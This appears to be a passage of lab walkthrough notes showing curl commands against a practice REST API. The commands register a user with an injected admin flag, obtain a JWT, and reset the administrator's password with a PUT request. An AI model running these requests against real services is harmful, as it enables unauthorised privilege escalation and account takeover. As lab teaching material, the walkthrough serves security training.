 The API requests an email address. 

Let's supply an email and an `"admin":"True"` key.

Attempting to register a new user as admin

```
kali@kali:~$curl -d '{"password":"lab","username":"offsec","email":"pwn@offsec.com","admin":"True"}' -H 'Content-Type: application/json' http://192.168.50.16:5002/users/v1/register
{"message": "Successfully registered. Login to receive an auth token.", "status": "success"}
```
We were able to create a new admin user. 

Try to login with these credentials by invoking `login` API

Logging in as an admin user

```
kali@kali:~$curl -d '{"password":"lab","username":"offsec"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login
{"auth_token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzEyMDEsImlhdCI6MTY0OTI3MDkwMSwic3ViIjoib2Zmc2VjIn0.MYbSaiBkYpUGOTH-tw6ltzW0jNABCDACR3_FdYLRkew", "message": "Successfully logged in.", "status": "success"}
```
Log in success and received JWT authentication token. Use this token to change the admin user password to obtain tangible proof that we are also an admin. 

Forging a POST request that targets the **password** API

Attempting to Change the Administrator Password via a POST request

```
kali@kali:~$ curl  \
  'http://192.168.50.16:5002/users/v1/admin/password' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzEyMDEsImlhdCI6MTY0OTI3MDkwMSwic3ViIjoib2Zmc2VjIn0.MYbSaiBkYpUGOTH-tw6ltzW0jNABCDACR3_FdYLRkew' \
  -d '{"password": "pwned"}'

{
  "detail": "The method is not allowed for the requested URL.",
  "status": 405,
  "title": "Method Not Allowed",
  "type": "about:blank"
}
```

Got `405 Method Not Allowed`

Let's attempt the PUT method instead.

Attempting to Change the Administrator Password via a PUT request

```
kali@kali:~$ curl -X 'PUT' \
  'http://192.168.50.16:5002/users/v1/admin/password' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzE3OTQsImlhdCI6MTY0OTI3MTQ5NCwic3ViIjoib2Zmc2VjIn0.OeZH1rEcrZ5F0QqLb8IHbJI7f9KaRAkrywoaRUAsgA4' \
  -d '{"password": "pwned"}'
```
No error message. Prove this attack succeeded by logging in as admin with newly changed password. 
